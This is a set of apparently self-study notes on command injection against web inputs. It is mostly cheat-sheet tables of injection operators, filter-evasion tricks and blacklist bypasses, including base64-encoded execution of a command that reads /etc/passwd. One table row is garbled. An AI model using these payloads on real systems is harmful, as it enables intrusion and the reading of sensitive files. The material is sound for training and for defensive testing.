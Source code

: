 # Command Injection Notes

If some type of functionality is given with input we can enter try to abuse, like in the case of a website with a ping checker.

## Cheat sheets

Injection Operators
|Injection Operator|	Injection Character |	URL-Encoded Character 	|Executed Command|
|:----|:----|:----|:----|
|Semicolon |	; 	|%3b |	Both|
|New Line| 	\n |	%0a 	|Both|
|Background| 	& 	|%26 	|Both (second output generally shown first)|
|Pipe 	| 	%7c 	|Both |(only second output is shown)|
|AND 	|&& 	|%26%26 	|Both (only if first succeeds)|
|OR 	|\|\| |	%7c%7c| 	Second (only if first fails)|
|Sub-Shell |	`` 	|%60%60 	|Both (Linux-only)|
|Sub-Shell| 	$() 	|%24%28%29 	|Both (Linux-only)|

### Linux
|Code| 	Description|
|:----|:----|
|printenv 	|Can be used to view all environment variables|

### Spaces 	
|Code| 	Description|
|:----|:----|
|%09 	|Using tabs instead of spaces|
|${IFS} 	|Will be replaced with a space and a tab. Cannot be used in sub-shells (i.e. $())|
|{ls,-la} 	|Commas will be replaced with spaces|

### Other Characters 	
|Code| 	Description|
|:----|:----|
|${PATH:0:1} |	Will be replaced with / |
|${LS_COLORS:10:1} 	|Will be replaced with ;|
|$(tr '!-}' '"-~'<<<[) 	|Shift character by one ([ -> \)|

### Blacklisted Command Bypass

### Character Insertion 	
|Code| 	Description|
|:----|:----|
|' or " 	|Total must be even|
|$@ or \ 	|Linux only|

### Case Manipulation 	
|Code| 	Description|
|:----|:----|
|$(tr "[A-Z]" "[a-z]"<<<"WhOaMi") |	Execute command regardless of cases|
|$(a="WhOaMi";printf %s "${a,,}") 	|Another variation of the technique|

### Reversed Commands 	
|Code| 	Description|
|:----|:----|
|echo 'whoami' \| rev |	Reverse a string|
|$(rev<<<'imaohw') 	|Execute reversed command|

### Encoded Commands 	
|Code| 	Description|
|:----|:----|
|echo -n 'cat /etc/passwd \| grep 33' \| base64 	|Encode a string with base64|
|bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)| 	Execute b64 encoded string|
